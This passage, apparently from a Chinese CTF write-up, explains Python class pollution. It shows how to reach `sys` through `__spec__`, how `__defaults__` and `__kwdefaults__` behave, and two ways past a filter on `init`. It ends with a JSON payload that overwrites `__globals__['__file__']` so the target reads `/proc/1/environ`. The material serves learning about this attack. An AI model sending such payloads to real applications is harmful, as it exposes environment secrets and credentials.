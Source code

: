 如何拿到 `loader` ? **任何非 debug 模式下的 python3 模块的 `__loader__` 属性都有对应的类**, 且 *python 3.4* 后由于有 `__spec__`, 可以通过 **`<模块名>.__spec__.__init__.__globals__['sys']`**/ `<模块名>.__spec__.loader.__init__.__globals__['sys']` 直接获取到 `sys` 模块;

### 构造 payload

#### 前置

在构造 payload 前, 还需要知道这两个常用利用:

`__defaults__`: 以元组的形式按从左到右的顺序收录了函数的位置或键值形参的默认值;

> 参考: [知乎](https://zhuanlan.zhihu.com/p/412273465)

示例:

```python
def func_a(var_1, var_2 =2, var_3 = 3):
    pass

def func_b(var_1, /, var_2 =2, var_3 = 3):
    pass

def func_c(var_1, var_2 =2, *, var_3 = 3):
    pass

def func_d(var_1, /, var_2 =2, *, var_3 = 3):
    pass

print(func_a.__defaults__)
#(2, 3)
print(func_b.__defaults__)
#(2, 3)
print(func_c.__defaults__)
#(2,)
print(func_d.__defaults__)
#(2,)
```

> 注: `/` 和 `*` 本身不是参数, 其分别控制:
> - `/`: 左边的参数只能以位置, 不可用 `key=value` 形式传参;
> - `*`: 右边的参数只能通过键值对 `key=value`传递
> -  `__default__` 是不管 `*` 的参数的, 因为它只管位置, 而键值对是支持乱序的。

`__kwdefaults__`: 则正好相反, 只会返回键值对传参处的的默认参数;

#### bypass

这里过滤了 init, 有两种 bypass, 其一是利用 unicode 绕过 (json 支持 unicode), 其二是利用上下文中的 check 中来绕过;

> 原理: `obj.__class__.__init__` 实际上是返回的当前对象所属类中的**构造函数**, 由于下一步是要用 `__globals__` 读取该类中的全局命名空间, 因此和 `obj.__class__.<任意该类中构造的函数>.__globals__`在这里是读取的相同函数全局上下文;

最终 payload:

```json
{
	"username":"aaa",
	"password":"bbb",
	"__class__":{
        "check":{
            "__globals__":{
                "__file__" : "/proc/1/environ"
            }
        }
	}
}
```
